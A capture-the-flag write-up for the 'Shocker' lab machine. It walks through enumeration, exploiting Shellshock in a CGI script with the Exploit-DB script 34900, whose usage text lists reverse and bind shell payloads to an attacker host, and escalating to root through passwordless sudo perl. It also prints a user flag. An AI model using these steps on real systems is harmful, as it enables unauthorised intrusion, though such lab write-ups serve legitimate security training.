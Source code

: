 created : 23rd June 2021
comments : Needs formatting

# Shocker 
A Linux Box featuring the Shellshock vulnerability

## Enumeration
First we run nmap scan against the machine.
![](./images/shocker_nmap.png)

We can see that two ports are open 80 (http) and 2222 (SSH)

Since we have Apache running, let see how the site looks like
![](./images/shocker_http.png)

We now do directory enumeration
![](./images/shocker_gobuster.png)
Above we can see that we found a directory `/cgi-bin/`  

Let's futher bruteforce it to see if we have any scripts in there.
![](./images/shocker_gobuster2.png)
We found a script `user.sh` in `/cgi-bin/` directory

Requesting this in burp
![](./images/shocker_burp.png)

It seems like an output for a script, so we might have a shellshock vulnerability.

We run this by searchsploit.
![](./images/shocker_ss.png)
Out of all the results, 34900 look good as it concerns with Apache mod_cgi, so we give it a try.

Lets  try it
```shell
┌──(kali㉿kali)-[~/htb/shocker]
└─$ locate 34900.py  
/usr/share/exploitdb/exploits/linux/remote/34900.py
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ cp /usr/share/exploitdb/exploits/linux/remote/34900.py .
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ vim 34900.py     
```

Here is the usage
```python
Usage:                                                                                                  
./exploit.py var=<value>                                                                                
                                                                                                        
Vars:                                                                                                   
rhost: victim host                                                                                      
rport: victim port for TCP shell binding                                                                
lhost: attacker host for TCP shell reversing                                                            
lport: attacker port for TCP shell reversing                                                            
pages:  specific cgi vulnerable pages (separated by comma)                                              
proxy: host:port proxy                                                                                  
                                                                                                        
Payloads:                                                                                               
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)                             
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)                                    
                                                                                                        
Example:                                                                                                
                                                                                                        
./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234                                     
./exploit.py payload=bind rhost=1.2.3.4 rport=1234    
 ```
 
 lets fire the script
 
 
 
 Now we have shell access, lets get the user flag
 ```shell
 10.10.10.56> cat user.txt
a4f237c30bbd60e6be8f2079bbbba8c2

// Also checked sudo commands
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

From above we can see that we can run `perl` as root. This is nice and will help in privelege escalation.

Now, we try to find a perl reverse shell. I found one at pentest monkey

Below is a failed attempt
![](./images/shocker_exploit1.png)

Below i try with sudo precedding the full path of perl as mentioned in `sudo -l`
![](./images/shocker_exploit2.png)

Now we have root. Cheers!

